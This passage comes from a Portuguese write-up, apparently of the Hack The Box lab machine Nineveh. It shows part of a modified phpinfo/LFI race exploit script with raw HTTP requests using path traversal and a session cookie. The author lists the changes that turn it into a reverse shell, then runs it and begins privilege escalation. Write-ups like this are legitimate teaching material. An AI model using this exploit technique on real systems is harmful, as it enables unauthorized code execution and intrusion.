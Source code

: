 ```
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /department/manage.php?notes=/ninevehNotes/..%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Cookie: PHPSESSID=""" + phpsessid + """\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)
```

O que foi alterado?

1. O payload, agora vai me dar um reverse shell
2. Troquei o caminho do POST em REQ1 para /info.php o original tava /phpinfo.php
3. Troquei o caminho do LFIREQ para o da máquina Nineveh
4. Coloquei o PHPSESSION cookie no LFIREQ, de modo que agora ele pode acessar o LFI

Outra coisa que foi alterada, é como ele recebe a response da variável tmp_name, ele recebe com um "&gt;" no final, só que no script não tem isso. Possivelmente foi um erro de escrita de quem fez o script, mas corrigindo isso em dois pontos da certo 

Fazendo essas alterações conseguimos um shell na máquina

> python phpinfolfi.py 10.10.10.43 80 100

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_info8.png)

Aqui já poderiamos escalar para root... mas vamos fazer por partes e explicando do que se trata cada parte da máquina

# Escalação de privilégio para user

Agora vamos iniciar a escalação de privilégio dessa máquina

Bom, se lembrarmos lá antes de fazer o reverse shell, ele falava de um diretório secreto... então ele é o /var/www/ssl/secure_notes

Dentro dele descobrimos uma imagem

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_priv.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-nineveh/N_priv1.png)

Também poderíamos ter descoberto ele no Gobuster (Aqui eu utilizei uma wordlist maior, antes usei uma que não tinha "secure_notes")
